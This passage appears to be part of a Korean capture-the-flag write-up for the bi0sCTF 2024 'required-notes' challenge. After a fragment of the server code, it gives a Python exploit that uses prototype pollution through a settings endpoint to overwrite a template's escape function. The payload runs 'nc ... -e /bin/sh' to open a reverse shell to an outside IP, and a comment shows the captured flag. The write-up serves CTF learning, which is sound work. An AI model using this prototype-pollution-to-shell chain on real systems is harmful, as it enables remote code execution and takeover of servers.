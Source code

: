 ```javascript
    return res.json({ Message: 'Settings changed' });
  } catch (error) {
    console.error(error);
    res.status(500).json({ Message: 'Internal server error' });
  }
})
```      
      
`setting.proto` 파일은 `/customise` 경로에서 변경이 가능하다.    

### Exploit Code     
      
```python
import requests

# url = "http://localhost:3000"
url = "https://ch15496143241.ch.eng.run"

def pp(key: str, value: str): 
    author = f'option(a).constructor.prototype.{key} = {value};'
    r = requests.post(f"{url}/customise",
                    json={
                        "data": [
                            {}, 
                            {"author": author}
                        ]
                    })
    assert r.json()["Message"] == "Settings changed", r.text
    res = requests.post(f"{url}/create", json={})
    assert res.status_code == 500

pp("client", "1")
pp("escapeFunction", "\"JSON.stringify;process.mainModule.require('child_process').exec('nc 43.202.45.90 8000 -e /bin/sh')\"")

requests.get(f"{url}/create")
# {"title":"Healthcheck","content":"success"}{"title":"flag","content":"bi0sctf{CRIWjnXmtJ2pKunKM59jxg==}"}
```        

<img src="/assets/images/ctf/2024/bi0s/required-notes/flag.jpg" width="700px">            
      